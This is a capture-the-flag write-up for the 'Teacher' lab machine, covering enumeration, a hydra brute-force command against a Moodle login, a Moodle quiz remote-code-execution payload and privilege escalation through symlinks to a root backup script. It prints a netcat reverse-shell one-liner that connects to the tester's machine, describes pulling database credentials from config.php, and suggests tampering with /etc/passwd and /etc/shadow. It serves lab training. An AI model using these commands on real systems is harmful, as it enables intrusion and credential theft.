# Teacher
## Enumeration
- `nmap`
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.10.153                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-15 16:50 BST
Nmap scan report for 10.10.10.153 (10.10.10.153)
Host is up (0.10s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Blackhat highschool

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.53 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.153 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.153
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,html
[+] Timeout:                 10s
===============================================================
2023/06/15 16:47:54 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 292]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.153/images/]
/index.html           (Status: 200) [Size: 8028]
/gallery.html         (Status: 200) [Size: 8254]
/css                  (Status: 301) [Size: 310] [--> http://10.10.10.153/css/]
/manual               (Status: 301) [Size: 313] [--> http://10.10.10.153/manual/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.153/js/]
/javascript           (Status: 301) [Size: 317] [--> http://10.10.10.153/javascript/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.10.153/fonts/]
/phpmyadmin           (Status: 403) [Size: 297]
/moodle               (Status: 301) [Size: 313] [--> http://10.10.10.153/moodle/]
/.html                (Status: 403) [Size: 292]
/server-status        (Status: 403) [Size: 300]

```
- Web server


- Checked a few interesting paths provided by `gobuster`







## Foothold
- I spend so much time searching for clues
  - Checked `searchploit`
  - Found a few `rce` exploit, but they require authentification



- Checked `/images`
  - And found a note


- We have piece of the password, let's write a script to generate all possible variations


- Let's run `hydra`
  - `hydra -l Giovanni -P passwords.list teacher.htb http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"`



- Now we can check the exploits
  - There is a [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/) explaining `rce` in moodle


- Now we need to follow the steps and get our rce
  - Launch a listener
  - And perform the steps defined in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)
  - The following screenshots contain the steps described in the [post](https://www.sonarsource.com/blog/moodle-remote-code-execution/)

- Login, turn on editing and add an activity to any topic
  - Select `Quiz`





- Fill in required fields and save


- Open quiz and click on `edit quiz` button



- Add a new question


- Select `calculated`



- Fill in required forms
  - Add payload to `Answer` field
  - Save and click next



- Add payload to end of `url`
  - `&0=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>%261|nc 10.10.16.3 6666 >/tmp/f`


- We got a foothold


## User
- Enumerate
  - We can run `linpeas`
  - I started with basic enumeration 
  - `sudo -l` with no success
  - `find / -perm -4000 -exec ls -lha {} \; 2>/dev/null` no success
  - `ps -ef` showed that we have a `mysql` running


- Let's check the `/var/www/html/moodle` folder
  - Search for `db` configuration file


- We found `config.php`
  - Open it and use the creds stored to connect to `mysql`
    - `mysql -u root -p`
    - Found creds stored in `moodle` db and `mdl_user` table


- Checked hash in `Crackstation`
  - `su` to `giovanni`




## Root
- Enumerate again
  - `pspy` and `linpeas`



- Let's open the `script`


- We have few variants
  - Change permissions using symbolic links `ln -s` since `for each symbolic link listed on the command line, chmod changes the permissions of the pointed-to file`
  - So we can create links to
    - `/etc/passwd` -> modify it by adding `root` user
    - `/etc/shadow` ->  modify it by adding `root` user or crack `root` hash
    - `/usr/bin/backup.sh` -> append reverse shell payload
  - I prefered the last option





- Setup listener and wait for connection
  - Rooted


